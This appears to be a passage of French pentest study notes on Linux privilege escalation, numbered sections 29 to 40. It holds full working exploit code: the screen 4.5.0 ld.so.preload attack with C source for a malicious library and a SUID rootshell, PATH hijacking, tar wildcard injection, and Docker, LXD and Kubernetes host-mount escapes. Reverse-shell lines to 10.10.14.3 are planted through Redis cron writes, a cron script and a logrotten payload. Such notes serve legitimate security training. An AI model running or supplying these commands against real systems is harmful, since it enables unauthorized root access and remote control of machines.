



## 29. Services vulnérables - screen 4.5.0



L'exploitation de la version 4.5.0 de **screen** repose sur une vulnérabilité **SUID root** permettant l'écriture dans `/etc/ld.so.preload`.

### Vérification de version
```bash
screen -v
# ➜ Screen version 4.05.00 (GNU) 10-Dec-16
```

### Exploitation manuelle

> [!danger] Prérequis
> La création du fichier `/etc/ld.so.preload` nécessite un saut de ligne (`\n`) pour réussir l'injection.

#### Création de la librairie malveillante
```c
// /tmp/libhax.c
#include <unistd.h>
#include <sys/stat.h>
__attribute__((constructor)) void dropshell() {
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
}
```
```bash
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

#### Création du binaire rootshell
```c
// /tmp/rootshell.c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```bash
gcc -o /tmp/rootshell /tmp/rootshell.c
```

#### Injection et exécution
```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne '\n/tmp/libhax.so'
screen -ls
/tmp/rootshell
```

---

## 30. Kernel Exploits (DirtyPipe, PwnKit, etc.)

L'exploitation du noyau cible les vulnérabilités dans le code source du kernel Linux. Voir également les notes sur **Enumeration** pour identifier la version du noyau.

### Identification
```bash
uname -a
cat /etc/os-release
```

### Exemples classiques
* **PwnKit (CVE-2021-4034)** : Vulnérabilité dans `pkexec` (polkit).
* **DirtyPipe (CVE-2022-0847)** : Permet d'écraser des données dans des fichiers en lecture seule (ex: `/etc/passwd`).

```bash
# Vérification rapide pour PwnKit
pkexec --version
```

---

## 31. Capabilities (getcap/setcap)

Les **Capabilities** permettent de diviser les privilèges root en unités plus petites. Une mauvaise configuration peut mener à une escalade de privilèges.

### Énumération
```bash
getcap -r / 2>/dev/null
```

### Vecteurs d'attaque courants
* **cap_setuid+ep** : Permet de changer l'UID du processus.
* **cap_dac_override+ep** : Permet de contourner les vérifications de lecture/écriture/exécution des fichiers.

```bash
# Exemple d'exploitation avec cap_setuid
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

## 32. Path Hijacking

Le **Path Hijacking** exploite une variable `PATH` mal configurée ou un binaire appelant un exécutable sans chemin absolu.

### Détection
```bash
# Rechercher des binaires SUID appelant des commandes système
strings /usr/local/bin/backup | grep "tar"
```

### Exploitation
Si `/usr/local/bin/backup` appelle `tar` sans chemin absolu :
```bash
echo "/bin/bash" > /tmp/tar
chmod +x /tmp/tar
export PATH=/tmp:$PATH
/usr/local/bin/backup
```

---

## 33. Wildcard Injection

L'utilisation de jokers (`*`) dans des commandes comme `tar` ou `rsync` peut être détournée pour exécuter des options malveillantes.

### Exemple avec tar
Si un script exécute `tar cf backup.tar *`, on crée des fichiers nommés comme des options :
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

---

## 34. Exploitation de services internes (Redis, MySQL, etc.)

Les services écoutant uniquement sur `127.0.0.1` sont souvent moins sécurisés.

### Redis (RCE via configuration)
```bash
redis-cli
config set dir /var/spool/cron/crontabs/
config set dbfilename root
set payload "\n\n* * * * * /bin/bash -i >& /dev/tcp/10.10.14.3/4444 0>&1\n\n"
save
```

### MySQL (UDF Injection)
L'utilisation de bibliothèques partagées (UDF) permet d'exécuter des commandes système via SQL.

---

## 35. Cron Job Abuse



L'abus de tâches **cron** consiste à modifier des scripts exécutés par root possédant des permissions d'écriture inappropriées.

### Énumération
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
./pspy64 -pf -i 1000
```

### Exploitation
> [!warning] Risque de corruption
> Toujours effectuer une sauvegarde du script original avant toute modification.

```bash
cp /dmz-backups/backup.sh /dmz-backups/backup.sh.bak
echo 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1' >> /dmz-backups/backup.sh
```

---

## 36. Containers (LXD / LXC)



L'appartenance au groupe **lxd** permet de créer des conteneurs privilégiés accédant directement au système de fichiers de l'hôte.

### Configuration du conteneur
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/bash
```

### Comparaison des technologies
| Composant | LXC | LXD |
| :--- | :--- | :--- |
| Niveau | OS | Système Complet |
| Sécurité | Faible si mal configuré | Risque via `security.privileged` |
| Service | N/A | `lxd` |

---

## 37. Docker Privilege Escalation

L'exploitation de **docker** repose sur l'accès au socket ou le montage de volumes privilégiés.

### Escalade via montage de volume
```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

### Exploitation du socket Docker
```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

> [!info] Persistance
> L'accès au système hôte permet l'injection de clés SSH dans `/root/.ssh/authorized_keys`.

---

## 38. Kubernetes Privilege Escalation

L'exploitation de **Kubernetes** cible souvent des API mal configurées ou des tokens de **ServiceAccount** sur-privilégiés.

### Énumération et RCE
```bash
kubeletctl -i --server <IP> scan rce
kubeletctl -i --server <IP> exec "id" -p <pod> -c <container>
```

### Déploiement de pod malveillant
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: mount-root
  volumes:
  - name: mount-root
    hostPath:
      path: /
```

---

## 39. Logrotate Exploitation

L'outil **logrotten** permet d'exploiter une condition de race dans **logrotate** pour exécuter du code en tant que root.

### Exécution
```bash
gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/<IP>/9001 0>&1' > payload
./logrotten -p ./payload /path/to/writable.log
```

---

## 40. Miscellaneous Techniques

### NFS (Network File System)
> [!warning] Risque no_root_squash
> L'option **no_root_squash** permet de conserver les privilèges root sur le partage distant.

```bash
showmount -e <NFS-IP>
sudo mount -t nfs <NFS-IP>:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

### Hijacking Tmux
Si l'utilisateur appartient au groupe propriétaire du socket **tmux**, il peut s'attacher à la session active.
```bash
tmux -S /shareds
```